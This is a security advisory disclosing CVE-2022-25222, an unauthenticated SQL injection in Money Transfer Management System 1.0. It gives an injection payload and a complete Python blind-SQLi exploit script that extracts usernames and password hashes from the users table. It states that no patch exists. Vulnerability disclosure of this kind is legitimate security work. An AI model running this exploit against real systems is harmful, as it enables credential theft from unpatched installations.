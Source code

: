```yaml
---
slug: advisories/berry/
title: Money Transfer Management System 1.0 - Unauthenticated SQLi
authors: Oscar Uribe
writer: ouribe
codename: berry
product: Money Transfer Management System 1.0
date: 2022-03-15 12:00 COT
cveid: CVE-2022-25222
severity: 7.5
description: Money Transfer Management System 1.0 - Unauthenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, MTMS, SQL
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                  |
| --------------------- | ---------------------------------------------------------------- |
| **Name**              | Money Transfer Management System - Unauthenticated SQL Injection |
| **Code name**         | [Berry](https://en.wikipedia.org/wiki/Chuck_Berry)               |
| **Product**           | Money Transfer Management System                                 |
| **Affected versions** | Version 1.0                                                      |
| **State**             | Public                                                           |
| **Release date**      | 2022-03-15                                                       |

## Vulnerability

|                       |                                                                                  |
| --------------------- | -------------------------------------------------------------------------------- |
| **Kind**              | SQL injection                                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146) |
| **Remote**            | Yes                                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                     |
| **CVSSv3 Base Score** | 7.5                                                                              |
| **Exploit available** | Yes                                                                              |
| **CVE ID(s)**         | [CVE-2022-25222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25222)  |

## Description

Money Transfer Management System **Version 1.0** allows an unauthenticated
user to inject SQL queries in `admin/maintenance/manage_branch.php`
and `admin/maintenance/manage_fee.php` via the `id` parameter.

## Proof of Concept

Steps to reproduce

1. Go to `http://127.0.0.1/mtms/admin/maintenance/manage_branch.php`

2. Insert the following query inside the `id` parameter.

```sql
?id=1' and 1=1 -- -
```

3. The server response changes if the second part of the query is true or false.
   To automate the process use the below exploit.

System Information

* Version: Money Transfer Management System version 1.0.
* Operating System: Linux.
* Web Server: Apache
* PHP Version: 7.4
* Database and version: MySQL

## Exploit

```python
import requests
import urllib.parse

dictionary = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ !"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"""

def sqli_bool(base_url,query):


    url = "?id=1' and %s -- -" % query

    #proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    #r = requests.get(base_url+url, proxies=proxies)
    r = requests.get(base_url+url)

    if len(r.text) > 2700:
        return True

    else:
        return False


def get_length(url, query):

    for i in range(0,200):
        current_query = "(length((%s))=%s)"%(query,str(i))
        current_query = current_query=urllib.parse.quote(current_query)
        if sqli_bool(url,current_query):
            break

    if i !=199:
        return i
    else:
        return -1


def make_query(url,query):

    # Get length
    length = get_length(url,query)

    print("[*] Getting output length:")
    if length == -1:
        print("Error getting query length")
        return 0
    print("[+] Output Lenght: " + str(length))

    current_result = ""

    print()
    print("[*] Getting output: ")

    for pos in range(length+1):
        for char in dictionary:

            current_query = '(substr((%s),%s,1)="%s")' %(query,str(pos),requests.utils.quote(char))
            if sqli_bool(url,current_query):
                current_result += char
                print(current_result, end='\r')
                break

    print("[+] Found: " + " " * 100)
    print(current_result)


url = "http://127.0.0.1/mtms/admin/maintenance/manage_branch.php"

# must be only 1 row
# use limit and offset to iterate

# CHANGE THIS
query = "select concat(username,':', password) as t1 from users limit 1"

make_query(url,query)
```

## Mitigation

By 2022-03-15 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html>

## Timeline

<time-lapse
  discovered="2022-02-15"
  contacted="2022-02-15"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-03-15">
</time-lapse>

